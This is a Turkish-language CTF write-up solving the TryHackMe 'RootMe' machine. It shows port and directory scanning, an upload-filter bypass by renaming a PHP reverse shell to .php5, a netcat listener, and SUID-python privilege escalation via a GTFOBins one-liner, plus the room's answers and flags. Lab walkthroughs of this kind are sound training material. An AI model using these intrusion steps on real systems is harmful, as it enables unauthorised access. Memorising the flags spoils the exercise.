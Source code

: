 ## Giriş

Hoşgeldiniz! Bu yazımda Tryhackme’de bulunan <a href="https://tryhackme.com/room/breakit">RootMe</a> makinesinin çözümünü paylaşacağım.

# Bölüm 1 - Reconnaissance

1.
```
Makineyi tarayın, kaç tane port açık?
```
Öncelikle nmap taraması başlatalım.
```
┌──(root@r3tr0)-[/home/kali/Desktop/ctf/RootMe]
└─# nmap -T5 -p- -v -sV 10.10.155.83     
```

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/RootMe/images/a1.png?raw=true)

>Göründüğü gibi 22 ve 80 portu açık. Cevap: 2

2.
```
Çalışan Apache versiyonu nedir?
```
>2.4.29

3.
```
22 portunda çalışan servis nedir?
```
> ssh

4.
```
Gizli dizin nedir?
```
Gobuster çalıştırarak gizli dizini bulalım.

```
┌──(root㉿r3tr0)-[/home/kali/Desktop/ctf/RootMe]
└─# gobuster dir --url http://10.10.178.135 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,php,html -t 60
```
![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/RootMe/images/a2.png?raw=true)

> /panel/


# Bölüm 2 - Getting a Shell

1.
```
Bir form yükleyin ve ters shell alın ve bayrağı bulun.
```
Önce bulduğumuz gizli dizine gidelim.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/RootMe/images/a3.png?raw=true)

Php reverse shell komut dosyası kullanılarak bağlantı sağlanılabilir. Bunun için pentest monkey’in [php reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) kodunu kullandım. Dosya yüklenmek istendiğinde izin verilmiyor.

Dosya adı uzantısı değiştirilerek file upload bypass işlemi yapılabilir. Bu yüzden php-reverse-shell.php dosyasının adı php-reverse-shell.php5 yapıldığında yükleme işlemi başarı ile gerçekleşiyor.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/RootMe/images/a4.png?raw=true)

Yükleme işlemi yapmadan önce dosyayı açıp kendi ip adresinizi ve dinlemek istediğiniz portu girmelisiniz.

Dosyayı yükledikten sonra netcat çalıştırıyoruz.
```
┌──(root㉿r3tr0)-[/home/kali/Desktop/ctf/RootMe]
└─# nc -nvlp 1234 
```
http://10.10.178.135/uploads/ a giderek yüklediğimiz dosyayı çalışıyoruz ve shellimizi alıyoruz.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/RootMe/images/a5.png?raw=true)

python -c ‘import pty;pty.spawn(“/bin/bash”)’ ile bağlantı stabil hale getirelim.

cat /var/www/user.txt ile user flag’ı görüntüleyebiliriz.

> THM{y0u_g0t_a_sh3ll}

# Bölüm 3 - Privilege escalation 

find / -user root -perm /4000 ile root yetkisi edilecek dosyalar araştıralım.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/RootMe/images/a6.png?raw=true)

Burada /usr/bin/python dikkatimi çekti. [GTFOBins](https://gtfobins.github.io/gtfobins/python/) sayfasında python üzerinden yetki yükseltme ile ilgili komut bulunuyor.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/RootMe/images/a7.png?raw=true)

python -c ‘import os; os.execl(“/bin/sh”, “sh”, “-p”)’ komutu ile yetkimizi yükseltelim.

Ardından cat /root/root.txt komutu ile root bayrağına ulaşalım.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/RootMe/images/a8.png?raw=true)

> THM{pr1v1l3g3_3sc4l4t10n}

Ve böylelikle bir ctf daha tamamladık gelecek yazılarımda görüşmek üzere.






